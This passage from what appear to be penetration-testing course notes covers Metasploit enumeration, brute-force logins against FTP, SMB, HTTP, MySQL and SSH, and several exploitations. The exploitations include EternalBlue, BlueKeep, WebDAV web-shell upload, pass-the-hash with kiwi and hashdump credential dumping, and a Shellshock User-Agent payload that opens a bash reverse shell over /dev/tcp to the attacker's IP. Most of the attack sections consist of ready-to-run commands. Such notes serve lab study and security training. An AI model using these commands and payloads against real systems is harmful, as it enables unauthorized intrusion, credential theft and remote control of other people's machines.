show options  # Check the information of your scan. We are performing a ftp scan so we have to ensure that the RPORT is set to 21 (or a ftp port)
set RHOSTS target-ip  # Set the target ip
run  # Execute the ftp port version 
```

After this, in our example, we have found the version of the ftp port of our target.
<br>
We can further search for that version in our Auxiliary modules (for exploitation phase).

#### Auxiliary Module for ftp brute-force

Here's a summary of how to procede in order to use Metasploit framework with an Auxiliary module for ftp brute force scan:

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
search type:auxiliary ftp  # Search for Auxiliary ftp modules
use auxiliary/scanner/ftp/ftp_login  # Use the ftp brute force for ftp login  
show options  
```

In this case we have to set the RHOST with our target-ip, we also have to check if the RPORT is on 21 (or a ftp port).
<br>
Also, we have to set the USERNAME we need to test or the USER_FILE to pass a file with usernames. Then we have to pass a PASS_FILE to pass a file with passwords, too.

```bash
set RHOST target-ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt  # Metasploit has a built-in file with common users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Metasploit has a built-in file with common passwords
run  # Perform the brute force attack to try to authenticate on the FTP port
```

After you have get a valid combination, you can try to log in to ftp with them.
<br>
Please note that using brute-force may cause the ftp server to shut-down or block new authentications from the same ip, for some time.

```bash
# Exit from Metasploit framework console
ftp target-ip
# Write username and password
ls  # After you have successfully logged in you can try to explore the directories and files
get filename.format  # You may find some interesting file(s): you can download it
```

#### Auxiliary Module for ftp anonymous login

Here's a summary of how to procede in order to use Metasploit framework with an Auxiliary module for anonymous ftp login:

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
search type:auxiliary ftp  # Search for Auxiliary ftp modules
use auxiliary/scanner/ftp/anonymous  # Use the anonymous ftp login  
show options  
set RHOSTS target-ip  # Set the target ip
run  # Execute the anonymous login
```

Please note that often this anonymous login doesn't work, but in certain cases it can find ftp servers that doesn't need credentials for login.


### SMB (Samba) Enumeration

SMB (Server Message Block) is a network sharing protocol that allows file sharing between two computers on the same LAN or between some devices (for example a computer and a printer).
<br>
SMB uses the port 445 ftp.
<br>
On Linux it's called SAMBA.
<br>
Here we will perform enumeration on shares, users and passwords in order to try to authenticate on SMB port.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxiliary smb  # Search for Auxiliary smb modules
use auxiliary/scanner/smb/smb_version  # Auxiliary module to scan the version of the SMB port
run  # Execute the smb version scan
```

#### Auxiliary Module for smb user enumeration

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxiliary smb  # Search for Auxiliary smb modules
use auxiliary/scanner/smb/smb_enumusers  # Auxiliary module to enumerate users on that smb
run  # Execute the smb user enumeration
```

This may show the users on that smb port. 

#### Auxiliary Module for smb shares enumeration

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxiliary smb  # Search for Auxiliary smb modules
use auxiliary/scanner/smb/smb_enumshares  # Auxiliary module to enumerate shares on that smb
set ShowFiles true  # Enable a detailed description of what it finds
run  # Execute the smb shares enumeration
```

#### Auxiliary Module for smb login 

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxiliary smb  # Search for Auxiliary smb modules
use auxiliary/scanner/smb/smb_login  # Auxiliary module to brute-force login on smb port
set SMBUser target-user  # Set the user to try to login
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Metasploit has a built-in file with common passwords
run  # Execute the smb shares enumeration
```

After you have successfully got a valid username and password you can try to get the shares of that smb user.

```bash
# exit from Metasploit framework
smbclient -L \\\\target-ip\\ -U target-user  # List all the shares available by the target user
# write the password that you got before
smbclient \\\\target-ip\\share-target -U target-user  # You can access a specific target share
```

Now you can access the share with its folders and files and so on.


### Web Server Enumeration

Web Server is a software that serves website data on the web. It is a software that hosts the directories of your website and grants the access to them.
<br>
Common web servers are Apache, Nginx, etc.
<br>
They use HTTP (HyperText Transfer Protocol) to facilitate the communication between clients and the web server.
<br>
HTTP is a protocol that uses TCP on port 80, while HTTPS works on port 443.

<br>
<br>
When you open your browser and search an HTTP or HTTPS website, the browser will perform a DNS lookup to resolve that domain to the web server ip address.
<br>
It will send an HTTP request to the web server and it will receive a HTTP response from the web server.

<br>
<br>
We can enumerate the web server discovering what version its running, what web server, gain information on http headers, programming languages, or discovering hidden files, etc.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary http  # Search for Auxiliary modules about http
use auxilary/scanner/http/http_version  # Use the Auxiliary module for Http version scan
# If your target uses HTTPS then you will have to set RPORT to 443 and SSL to true
run  # Execute the http version scan
search http_header  # Search for Auxiliary modules for http headers
use auxilary/scanner/http/http_header  # Use the Auxiliary module for http header scan
run  # Execute the http header scan, and you can find the programming languages used
```

#### Auxiliary Modules for robots.txt

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search robots_txt  # Search for Auxiliary modules about robots.txt
use auxilary/scanner/http/robots_txt  # Use the Auxiliary module for robots.txt file
run  # Execute the robots.txt search
```

In the robots.txt you may find some directories that are excluded by indexing, so you may try to access them and see their content.

```bash
curl target-ip/target-folder  # Watch the http content of the folder that you found in the robots.txt
```

You may see that certain target-folder are accessible and you can see the content, while others are protected or require credentials.
<br>
In this case you may try a brute-force module to try to access them.

### Auxiliary Modules for brute-force directory scanner

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search dir_scanner  # Search for Auxiliary modules for brute-force directory scan 
use auxilary/scanner/http/dir_scanner  # Use the Auxiliary module for brute-force directory scan
run  # Execute the brute-force for directory scan
```

With this you may find all the directories of a web server, and you can see if those are free to enter or require authentication.

### Auxiliary Modules for brute-force file scanner

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search files_dir  # Search for Auxiliary modules for brute-force file scan
use auxilary/scanner/http/files_dir  # Use the Auxiliary module for brute-force file scan
run  # Execute the brute-force on file scan
```

Here you can find all the files that are on the web server. Some are accessible, others require authentication.

### Auxiliary Modules for brute-force login

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search http_login  # Search for Auxiliary modules for brute-force login
use auxilary/scanner/http/http_login  # Use the Auxiliary module for brute-force file scan
set AUTH_URI target-folder  # Set the target-folder that we want to access
unset USERPASS_FILE  # Unset the userpass file since in the options we already have a USER_FILE and a PASS_FILE
set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt  # In certain cases you may need to change the user brute-force list (using a list in the Metasploit framework)
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Same as above
set VERBOSE false  # Don't show the failed results and show only the successful ones
run  # Execute the brute-force on login
```

In case you want to perform a brute-force on a single user you can:

```bash
echo "target-user" > username.txt  # Save the target user on a file
set USER_FILE username.txt  # Use your file
run  # Execute the brute-force on login 
```

### Auxiliary Modules for Apache Enumeration

You can try to enumerate valid users on the server with this.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search apache_userdir_enum  # Search for Auxiliary modules for Apache enumeration
use auxilary/scanner/http/apache_userdir_enum  # Use the Auxiliary module for Apache enumeration
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt  # Set the list of common users from Metasploit framework list
run  # Start Apache enumeration
```

### Mysql Enumeration

Mysql is a open source relational system based on SQL. 
<br>
It is often used on web applications data.
<br>
Mysql uses tcp port 3306 by default.
<br>
With Mysql Enumeration we can execute SQL commands and gain access and informations about tables and data.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary mysql  # Search for Auxiliary modules for Mysql version
use auxilary/scanner/mysql/mysql_version  # Use the Auxiliary module for Mysql version
run  # Search for Mysql version
```

After we have found the Mysql version we can either try to search for some Auxiliary modules on that particular version, or we can try to gain access with brute-force.

#### Auxiliary Module for Mysql login 

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary mysql  # Search for Auxiliary modules for Mysql version
use auxilary/scanner/mysql/mysql_login  # Use the Auxiliary module for Mysql login with brute-force
set USERNAME root  # In this case we have to specify the root user because we'll do the brute-force attack on the main user (root)
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Set the password to use from the Metasploit framework
set VERBOSE false  # Display only successful credentials
run  # Start the brute-force for credentials
```

After we have gained credentials we can use the Auxiliary module for Mysql Enumeration

```bash
search mysql_enum  # Search for the Mysql Enum Auxiliary module
use auxilary/admin/mysql/mysql_enum  # This module requires root credentials (so we can use what we have found above)
set USERNAME root  # Set the username (root)
set PASSWORD target-password  # Set the target-password
run  # Start Mysql Enumeration
```

Now we can gain access to more informations.

#### Auxiliary Module for Mysql SQL

With this module we can execute SQL queries into Mysql target.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary mysql  # Search for Auxiliary modules for Mysql version
use auxilary/admin/mysql/mysql_sql  # Use the Auxiliary module for executing SQL queries in our Mysql target port 
set USERNAME root  # Set the username (root)
set PASSWORD target-password  # Set the target-password
set SQL query  # Write the query that you want to execute (example: show databases;)
run  # Execute the sql query
```

#### Auxiliary Module for Mysql Schema

This module extracts schema informations of our Mysql target.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary mysql  # Search for Auxiliary modules for Mysql
use auxilary/scanner/mysql/mysql_schemadump  # Use the Auxiliary module to gain schema dump on our Mysql target port 
set USERNAME root  # Set the username (root)
set PASSWORD target-password  # Set the target-password
run  # Execute the sql to access schema
```

*In Metasploit framework you can access to everything you have extracted using the loot and creds commands.*

#### Execute Sql queries directly on Mysql

```bash
# exit the msfconsole and workspace
mysql -h target-ip -u username-target -p  # Log in mysql directly from the shell with your target username
# Write the password
```

Now you can execute any sql query.


### SSH Enumeration

SSH (Secure Shell) is a remote administration protocol that offers encryption.
<br>
It is used for remote access to servers and systems. It allows for users-password credentials or a private key pair.
<br>
It uses tcp port 22.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary ssh # Search for Auxiliary modules for SSH version
use auxilary/scanner/ssh/ssh_version  # Use the Auxiliary module to gain schema dump on our Mysql target port 
run  # Get the ssh version
```

#### Auxiliary Module for SSH login

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary ssh  # Search for Auxiliary modules for SSH
use auxilary/scanner/ssh/ssh_login  # Use the Auxiliary module for ssh login with brute-force
set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt  # Set the username to use from the Metasploit framework
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Set the password to use from the Metasploit framework
set VERBOSE false  # Display only successful credentials
run  # Start the brute-force for credentials
```

After it got the credentials you can start a ssh session inside the msfconsole.

```bash
sessions  # Watch the sessions you have
sessions session-name  # Use the session with the credentials you have just got
/bin/bash -i  # Start a bash shell
```

Now you can execute shell commands on the operating system from this SSH session.

#### Auxiliary Module for SSH user enumeration

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary ssh  # Search for Auxiliary modules for SSH
use auxilary/scanner/ssh/ssh_enumusers  # Use the Auxiliary module for ssh users enumeration
set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt  # Set the username to use from the Metasploit framework
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  # Set the password to use from the Metasploit framework
run  # Perform users enumeration
```

### SMTP Enumeration

SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used to send emails.
<br>
It runs on port 25 on default, but it is often configured on port 465 or 587.
<br>
```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
search type:auxilary smtp  # Search for Auxiliary modules for SMTP
use auxilary/scanner/smtp/smtp_version  # Use the Auxiliary module for smtp version
run  # Get the smtp version
use auxilary/scanner/smtp/smtp_enum  # Auxiliary module for smtp enumeration
# Specify a different USER_FILE file if necessary
run  # Perform users enumeration by brute-force
```


## Assessment Methodologies: Vulnerability Assessment

In this chapter we will explore some Vulnerability Assessments.

### Overview of Windows Vulnerabilities

Windows OS is the most used Operating System, with over 70% share. There were (are?) critical vulnerabilities and thus it's a OS subject to attacks.
<br>
Sometimes, a new version of Windows tends to solve a vulnerability, but not every company is updated with new versions.
<br>
Windows OS is developed in C programming language. Also, Windows is not configured to be secure (you have to manually add configurations).
<br>
The most common vulnerabilities are:
<li>Information Disclosure: allow attackers to gain access to sensitive data</li>
<li>Buffer Overflow: caused by a programmin error, can allow attackers to write data into memory</li>
<li>Remote Code Execution: can allow attackers to remotely execute code</li>
<li>Privilegies Escalation: can allow attackers to elevate their privilegies</li>
<li>Denial Of Service (DOS): can allow attackers to consume cpu/ram in order to reduce the functionalities of the main system</li>

### Frequentely Exploited Windows Services

Microsoft OS has some default services that can be configured to run on a host and some of them may have or had vulnerabilities.
<br>


### Vulnerability Scanning with MSF

Vulnerability Scanning is the process of scan vulnerabilities of a target and try to see if those can be exploited.

```bash
# run postgresql and msfconsole and create a new workspace
# search for the first port scan, set the target-ip and run it
setg RHOSTS target-ip  # In Metasploit framework you can set a global variable that will use your target-ip as the RHOSTS for every module you use
db_nmap -sS -sV -O target-ip  # Scan port, version and OS with Nmap script on Metasploit framework
search type:exploit target-version  # Search for Auxiliary modules for the version of the target you found (example for the Http port)
```

You can type the info command to gain more insights on what a module does and for which versions.
<br>
If you don't find any exploit module specific for the version of your target you can try to search for other ports too (example Mysql port).

```bash
use exploit/multi/http/glassfish_deployer  # Example of an Exploit module that works on our target service on a target port
set payload windows/meterpreter/reverse_tcp  # Set the payload to work for the target os (in this example Windows)
show options  # And check for any missing field that you require and try to set it
```

### Kali Linux Searchsploit

You can use a Kali Linux tool, called Searchsploit to find exploits for specific versions (that you may have failed to find with Metasploit framework).

```bash
searchsploit "target-os-version" | grep -e "Metasploit"  # Find only the modules that are available on Metasploit framework
# return on msfconsole
search exploit-name  # Search for the exploit that you have found with the searchsploit tool
use auxiliary/scanner/smb/smb_ms17_010  # In this case we'll first use a module that tells if our target os version is vulnerabile to the exploit
run  # This example module will tell if our target os version is vulnerabile to the exploit
use exploit/windows/smb/ms017_010_eternalblue  # Use the Exploit module of our target os version
run  # Run the exploit
```

After this, now you may have established a connection and you may see a meterpreter console.

```bash
sysinfo  # Gain information about the OS you are in
# Now you can execute other commands
```

### Metasploit-Autopwn

Github repo that executes a Metasploit script to tell you exploit modules for your target.

```bash
wget repo-link  # Download the repo (or with git)
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins  # Import this into Metasploit modules
# return on msfconsole
load db_autopwn  # Load the module
db_autopwn -p -t -PI target-port  # Find Exploit modules for your target port
```

### Analyze msfconsole comand

This command will analyze the hosts, services etc that you have saved on your Metasploit framework workspace.

```bash
analyze  # Analyze your Metasploit framework workspace
vulns  # Now this Vulnerability page will be filled with more information on your vulnerabilities
```

### WebDav Vulnerabilities

Microsoft IIS is a web server created by Windows. It provides a GUI for web applications. It can be used to host pages with asp.net and php.
<br>
WebDav is an extension of the http protocol. It is used to edit and manage files on a web server (like the IIS).
<br>
Both IIS and WebDav is usually on port 80 or 443.
<br>
You can authenticate with username and password.
<br><br>
Our goal here is to obtain the WebDav version (if it's used) and try to see if we can connect on it. Then we can insert a malicious payload in order to grant us the ability to execute commands on the server.

#### Tools for WebDav Vulnerabilities

<li>davtest: used to scan and find vulnerabilities on a WebDav server.</li>
<li>cadaver: it supports file upload, download, editing, etc.</li>

```bash
nmap -sV -sC target-ip  # Perform a regular port scanning to detect WebDav ports (if any)
nmap -sV -p 80 --script=http-enum target-ip  # We found that it is using WebDav, now we run this command to gain more info
```

We have seen that in the folder part of the output it tells us (Unauthorized). This means that the authentication method is on.
<br>
We can confirm it trying to access the folder on the web (example: http//target-ip/webdav/)
<br>
We can try to brute-force the credentials using Hydra tool.

```bash
# Use hydra to perform a brute-force using the common_users and common_passwords files on the folder you have found (usually /webdav/)
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt target-ip http-get /webdav/
```

After you have got the right credentials you can use them to log in the browser on that folder.
<br>
We can use Davtest tool to try to check what kind files or folders we can execute, upload, edit, ecc.

```bash
davtest -auth target-username:target-password -url http://target-ip/target-folder  # Use the credentials found and the target ip and the folder you have found (usually webdav)
```

Now we can use Cadaver to upload, execute, edit files.

```bash
cadaver http://target-ip/target-folder  # Use the target-ip and the folder you have found (usually webdav)
# Write username and password
# Write your commands!
```

Now you have the access on a shell!
<br>
But, to execute more advanced commands and specific files you can upload a web shell for a file type that you know you can execute on the webdav.

```bash
ls -al /usr/share/webshells  # Check the web shells available on Kali Linux and find the one with the file type that you can execute
# Come back on cadaver
put /usr/share/webshells/asp/webshell.asp  # Upload on the webdav a web shell specific (in this case .asp)
```

Now if you go to that folder in the browser you can see the folders that you have created with Davtest and you can find the web shell that you have just uploaded.
<br>
Now you can use the web-shell directly in the browser!


### Vulnerability Analysis: EternalBlue

EternalBlue is a collection of Windows vulnerabilities that allowed attacked to gain access to Windows systems.
<br>
The EternalBlue was developed by NSA but then a group of hackers leaked it and showed to the public.
<br>
Metasploit framework has some auxiliary modules that can see if the target is vulnerabile to EternalBlue and there are some exploit modules for attacking that vulnerability. But you can also exploit it manually without Metasploit.

```bash
sudo nmap -sV -p 445 -O target-ip  # Perform a port scan on 445 to check for version and os for SMB port
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target-ip  # Check if the target os is vulnerable to EternalBlue
```

#### Manual EternalBlue Exploit 

We will use the AutoBlue-MS17-010 that you can find on GitHub.

```bash
# clone the repository from GitHub
cd shellcode  # Change directory to shellcode
chmod +x shell_prep.sh  # Change privilegies of that script
./shell_prep.sh  # Execute the script
y  # Confirm
your-ip  # Write your ip
# Write the two LPORT(s)
# Type 0 or 1 
# Type 0 or 1
  nc -nvlp Lport  # in other terminal, write the port you have wrote for LPORT above to make it listen to that port
cd ..
chmod +x eternalblue_exploit7.py  # Specify the Windows version you need to use
python eternalblue_exploit7.py target-ip shellcode/sc_x64.bin  # Specify the 32 or 64 version and the Windows version
```

After this, if the target is vulnerable, on the second console (with nc listening) you will have access to the Windows shell of the target.


#### Metasploit EternalBlue Exploit

```bash
# run postgresql and msfconsole
search eternalblue  # Search for eternalblue auxiliary and exploit modules
# use the auxiliary module (setting the target-ip as RHOSTS) to check if the target is vulnerable, if so continue
use exploit/windows/smb/ms17_010_eternalblue  # Use the exploit module
show options  # Show options
set RHOSTS target-ip  # Set the target ip
exploit  # Run the exploit
```

After this, if the target is vulnerable, you will get a meterpreter shell where you can execute Windows commands on the target.

### Vulnerability Analysis: BlueKeep

BlueKeep is a RDP vulnerability where attacks can gain access to Windows system, by gaining access to a chunk of the kernel and executing arbitrary code into the target.
<br>
Please note that writing code into the kernel can make the system crash.

```bash
sudo nmap -p 3389 target-ip  # Perform a port scan on the target
# run postgresql and msfconsole
search BlueKeep  # Search for BlueKeep auxiliary and exploit modules
# use the auxiliary module (setting the target-ip as RHOSTS) to check if the target is vulnerable, if so continue
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce  # Use the exploit module
set RHOSTS target-ip  # Set the target-ip as RHOSTS
show targets  # Check what Windows versions you can target
set target number  # Set the number of your target
# check/set the CHUNK size (too much high will cause the system to crash)
exploit  # Run the exploit
```

After this, if the target is vulnerable, you will get a meterpreter shell where you can execute Windows commands on the target.


### Pass-the-Hash Attacks

Pass-the-hash attacks are a Windows vulnerability techniques to harvest NTLM hashes or clear-text passwords and using them to authenticate with the target legitimately.
<br>
You can use Metasploit PsExec module or Crackmapexec tool.

```bash
# run postgresql and msfconsole
search BlueKeep  # Search for BlueKeep auxiliary and exploit modules
# exploit a target and gain the meterpreter shell (like in the previous examples)
pgrep lsass # In the target meterpreter shell, get the process ID
migrate target-id  # Migrate to that ID
getuid  # Get the name of the target system that you are using
load kiwi  # Run Kiwi tool
lsa_dump_sam  # Get the admin username and NLTM credentials (hash)
# Copy the admin username and hash password (or of an user)
hashdump  # Get also the LM hash password of the target(s)
```

After you have got the hashes you can run the Metasploit framework again

```bash
# run msfconsole again
search psexec  # Search for PsExec exploit module
use exploit/windows/smb/psexec  # Use the module
sessions  # Get the port you're on
show options  # Show options
set LPORT number  # Set a different LPORT (different from the one you found in the sessions)
set RHOSTS target-ip  # Set the RHOSTS with the target ip
set SMBUser target-username  # Set the SMBUser with the target-username
set SMBPass target-LMhash  # Set the SMBPass with the LM hash password of the target
set target Native \upload  # Set the target shell (to get a Meterpreter shell)
exploit  # Exploit the target
```

Now you have access to a Meterpreter shell with commands, and you'll be logged with clean credentials.


#### Using Crackmapexec tool

```bash
crackmapexec smb target-ip -u target-username -H "target-NTLMhash" -x "command" 
```

With this command you can run the CrackmapExec tool for smb with the credentials and hash password you have got and the command you want to execute on the target.


### Frequently Exploited Linux Services

Linux is a free and open-source operating system that combines the Linux kernel and the GNU toolkit (a collection of utilities like cat, ls commands..).
This combination makes Linux as a whole operating system.
<br>
It is often deployed as a server, thus it's common to find certain open ports on Linux systems.
<br>
There are many different Linux distros, that are variants of the operating system using different desktops.
<br>



### Exploiting Bash Vulnerability (ShellShock)

This vulnerability allows the attacker to execute commands on the Linux target system.
<br>
This targets Apache and Bash.
<br>
This vulnerability uses the fact the not-patched Bash shells can execute code after these characters () {:;};.
<br>
This will also reflect on Apache servers because they use the CGI (Common Gateway Interface) that allows to execute commands on Linux os.
<br>
To exploit this vulnerability you can try to do it manually writing bash commands on the CGI interface, or you can use Metasploit exploit modules.

```bash
nmap -sV target-ip  # Use Nmap to get the version of and the system of the target ports
# Open the browser, search the target-ip, read the source code and you can notice that Javascript code executes some .cgi commands on the bash, and you can access them (it's an example exercise)
nmap -sV target-ip --script=http-shellshock --script-args "http-shellshock.uri=/target-cgi.cgi"  # Above you've got the .cgi script, now you can use Nmap to check if the target is vulnerable to shellshock
# Open web applications analysis -> burpsuite from your Kali Linux
# Click on "Proxy" and "Intercept is on" from the Burpsuit GUI
# Click on "Intercept" from the Burpsuit GUI
nc -nvlip 1234  # On your bash set Netcat to listen on a particular port to create a reverse shell with the target
# Click on "Repeater" and replace the User-Agent with () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/your-ip/1234 0>&1'  # Create a reverse shell
# Click on "Send"
```

Now on your NetCat bash console you can execute commands directly on the target!

#### Exploit ShellShock with Metasploit Framework

```bash
# start postgresql and msfconsole
search shellshock  # Search for the Auxiliary module to see if the target is vulnerable
# use the auxiliary/scanner/http/apache_mod_cgi_bash_env, set params and run it. If target is vulnerable continue
use exploit/multi/http/cups_bash_env_exec  # Use the Exploit module for ShellShock
set RHOSTS target-ip  # Set the target-ip
set TARGETURI target-cgi.cgi  # Set the target cgi that you have found in the previous method
exploit  # Run the exploit
```

Now you have access to a Meterpreter shell and you can execute commands on the bash shell!
<br>
*Please note that in reality this exploit module seems to have changed*


### Vulnerability Scanning with Nessus

Nessus is a tool for vulnerability scanning.
<br>
It automates the process of searching for vulnerabilities and it will give us detailed information.
<br>
It will perform:
<li>Host discovery</li>
<li>Port scanning</li>
<li>Checks if the services on the target are in the list of vulnerabilities</li>
<br>
Nessus has a free version and a paid one, we can go to its website and download the free version (Nessus Essentials).

```bash
# download the free version of Nessus and install it in your shell (chmod +x filename and sudo dpkg -i filename)
sudo systemctl start nessusd.service  # Start Nessus
# Open browser and go to http://your-local-ip:8834 
# Use the activation code you received and create a Nessus account
# After the whole process of initialization, click on New Scan
# Click on Basic Network Scan 
# Write name and target-ip(s)
# Click on Launch
# After the process check on the Vulnerabilities it found
```

You can see every vulnerability it found, with the host, service and the risk factor of each one.

#### Import Nessus results into Metasploit framework

```bash
# In the Nessus tool click on Export.
# run postgresql and msfconsole and create a new workspace
db_import path-of-nessus-file  # Import the export of Nessus into Metasploit framework
```

Now you can type commands like hosts, services to check all the results.
<br>
You can type vulns to check all the vulnerabilities that Nessus has found.

```bash
vulns -p target-port  # On msfconsole, after you import the Nessus file you can check for vulnerabilities on a certain port that you want to target
```

You can also search for a particular CVE and search for exploits of that vulnerability.

```bash
search cve:target-cve name:target-name  # Search for a particular cve and target name
```

Now you can use an Exploit module, configure it and make exploits of your target's vulnerabilities!


### Web App Vulnerability Scanning with WMAP

Wmap is a web-application for vulnerability scanning and can automate web server enumeration.
<br>
Wmap is fully integrated with Metasploit framework.

```bash
# start postgresql, msfconsole and create a new workspace
setg RHOSTS target-ip  # Set the global variable with the target ip
load wmap  # Load Wmap inside Metasploit framework
wmap_  # List every Wmap commands
wmap_sites -a target-ip  # Add the target-ip to use
wmap_targets -t http://target-ip  # Add the target url 
# You can check what you have enumerated so far typing the command -l (example wmap_sites -l)
wmap_run -t  # Run Wmap e get all the auxiliary modules available for your target (it searches automatically)
wmap_run -e  # Executes all the auxiliary modules that it has found
wmap_vulns -l  # Show every vulnerability that it has found
```

Now you have a list of vulnerabilities found and you can perform more vulnerability checking or exploits.
<br>
In the course example we are going to use some:

```bash
use auxiliary/scanner/http/http_put  # Use the Auxiliary module to scan the http port with put or delete methods
set PATH /data/  # Set the /data url (that we found in the robots.txt)
run  # Execute the module: if successful you'll be able to upload a file to the target server
# Usually attackers upload payloads to create reverse shell with the target server
set FILEDATA "Example text"  # Create a text for the file you'll upload
set FILENAME "example.txt"  # Create the name of your text file to upload
run  # Try to upload the file to the server
curl http://target-ip/data/example.txt  # Show the file you have uploaded
```


## Assessment Methodologies: Auditing Fundamentals

### Overview of Security Auditing

Security Auditing is the process of evaluating and verify the security measures of an organization.
<br>

**Why is Security Auditing important?**

<li>Identify vulnerabilities and weaknesses</li>
<li>Ensuring compliance</li>
<li>Enhancing risk managment</li>
<li>Improving security policies and procedures</li>
<li>Supporting business objective</li>
<li>Continuous improvements</li>

#### Essential Terminology




#### Security Auditing Process/Lifecycle

The Security Auditing process has different phases:
<li>Planning and Preparation</li>
<li>Information Gathering</li>
<li>Risk Assessment</li>
<li>Audit Execution</li>
<li>Analysis and Evaluation</li>
<li>Reporting</li>
<li>Remediation</li>




#### Types of Security Audits

Security Audits can be categorized based on the scope, methodology and the aspects of the organization.





#### Security Auditing and Penetration Testing



#### Governance, Risk and Compliance (GRC)

GRC is a framework used by organizations to manage and align their governance practices, risk strategies and compliance with regulatory systems.
<br>
<li>Governance means that the organization can complete its objective with compliance with legal requirements.</li>
<li>Risk identify, analyze and mitigate risks that could negatively impact the organization (like vulnerabilities).</li>
<li>Compliance ensures that the organization adhere to relevant laws and industry standards (such as GDPR, HIPAA, PCI DSS).</li>
<br>
For Penetration Testers, knowing GRC can help doing more precise assessments, enhance their reporting and create strategical reccomendations.

#### Common Standards, Frameworks and Guidelines 

Frameworks provide a structured approach to implement security practices, Standards set specific requirements and criteria to achieve that compliance and Guidelines are the best practices to improve security.

#### Frameworks 

**Nist Cybersecurity Framework (CSF)** is a set of guidelines and best practices deployed by NIST.
<br>

**Cobit** a framework for implementing, monitoring and improing IT governance.
<br>

**ISO/IEC 27001** an international standard for information security managment systems (ISMS).
<br>

**PCI Data Security Standards (PCI DSS)** a set of security standards to protect payment card information.
<br>

**Hipaa** U.S. health data law that sets the standards to protect sensitive patient information.
<br>

**GDPR** European regulation that governs data protection and privacy for individuals in the EU.
<br>

#### Guidelines 

**CIS Controls** a set of best practices to improve an organization cybersecurity posture. 
<br>

**Nist Sp 800-53** a catalog (published by Nist) for security and privacy controls for federal informations.
<br>


### Phase 1 - Developing a Security Policy

In this section we'll see a step-by-step action of creating a Security Policy, creating Auditing and finally doing the Pen.Testing.
<br>
In the first Phase, in order to create a Security Policy, we will do:

#### Requirements Gathering

